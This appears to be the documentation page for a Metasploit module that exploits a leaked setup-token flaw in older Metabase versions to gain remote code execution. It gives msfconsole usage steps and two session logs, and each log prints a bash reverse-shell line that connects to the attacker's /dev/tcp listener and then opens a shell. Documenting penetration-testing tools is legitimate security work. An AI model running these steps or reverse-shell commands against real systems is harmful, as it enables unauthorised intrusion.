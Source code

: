 ## Vulnerable Application

Metabase versions before 0.46.6.1 contain a flaw where the secret setup-token
is accessible even after the setup process has been completed. With this token
a user is able to submit the setup functionality to create a new database.
When creating a new database, an H2 database string is created with a TRIGGER
that allows for code execution. We use a sample database for our connection
string to prevent corrupting real databases.

Successfully tested against Metabase 0.46.6, 0.44.4, 0.42.1.

### Install

Example of impacted versions:

```
docker run --rm -p 3000:3000 --name metabase metabase/metabase:v0.46.6
docker run --rm -p 3000:3000 --name metabase metabase/metabase:v0.44.4
docker run --rm -p 3000:3000 --name metabase metabase/metabase:v0.42.1
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/metabase_setup_token_rce`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Metabase 0.42.1 on Docker

```
msf exploit(linux/http/metabase_setup_token_rce) > run rhost=192.168.123.1 lhost=192.168.123.1 rport=3000
[*] Reloading module...

[+] bash -c '0<&30-;exec 30<>/dev/tcp/192.168.123.1/4444;sh <&30 >&30 2>&30'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.42.1
[+] Found setup token: e02ce681-0cf7-416f-a205-75656b168b4c
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:58422) at 2024-10-17 09:59:25 +0100

whoami
metabase
```

### Metabase 0.46.6 on Docker

```
msf > use exploit/linux/http/metabase_setup_token_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/metabase_setup_token_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(linux/http/metabase_setup_token_rce) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf exploit(linux/http/metabase_setup_token_rce) > set verbose true
verbose => true
msf exploit(linux/http/metabase_setup_token_rce) > exploit

[+] bash -c '0<&46-;exec 46<>/dev/tcp/111.111.11.111/4444;sh <&46 >&46 2>&46'
[*] Started reverse TCP handler on 111.111.11.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 45a2c97a-97f5-4a89-8f37-769b13411d16
[*] Sending exploit
[*] Command shell session 1 opened (111.111.11.111:4444 -> 222.22.2.2:55650) at 2023-07-28 12:48:47 +0000

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
